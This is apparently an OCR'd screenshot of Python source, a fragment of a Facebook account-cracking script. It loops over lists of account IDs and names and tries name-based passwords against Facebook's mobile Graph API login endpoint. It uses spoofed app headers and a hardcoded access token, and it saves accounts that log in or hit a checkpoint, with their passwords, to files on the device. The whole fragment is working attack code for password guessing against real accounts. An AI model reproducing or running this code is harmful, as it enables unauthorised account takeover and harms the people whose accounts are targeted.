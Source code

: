                            ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                           cookies = f"sb={ssbb};{ckkk}"
                    except Exception as e:print(str(e)+' | '+response.text)
                break
            elif 'www.facebook.com' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mRA-CP\033[1;91m] \033[1;97m'+acc+' \033[1;91m•\033[1;97m '+pword+'   ')
                cpacc.append(acc)
                open('/sdcard/RA.RANDOM-CP.txt','a').write(f'{acc} • {pword}\n')
                break
            else:
                continue
        loop += 1
     except Exception as e:time.sleep(10)





    def start2(user):
      global loop,accounts
      try:
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;97m[\033[1;97mPROCESS\033[1;97m]\033[1;97m {}-{}  \033[1;97mOK:\033[1;92m{} \033[1;97mCP:\033[1;91m{}       \r'.format(str(loop), str(len(accounts)), str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads = "Mozilla/5.0 (Linux; Android 11; Hisense H60 Smart Build/RP1A.201005.001; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.58 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/407.0.0.30.97;]"
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;92mRA-OK\033[1;92m] \033[1;92m'+acc+' \033[1;92m•\033[1;92m '+pword+'  ')
                open('/sdcard/RA.RANDOM-OK.txt','a').write(f'{acc} • {pword}\n')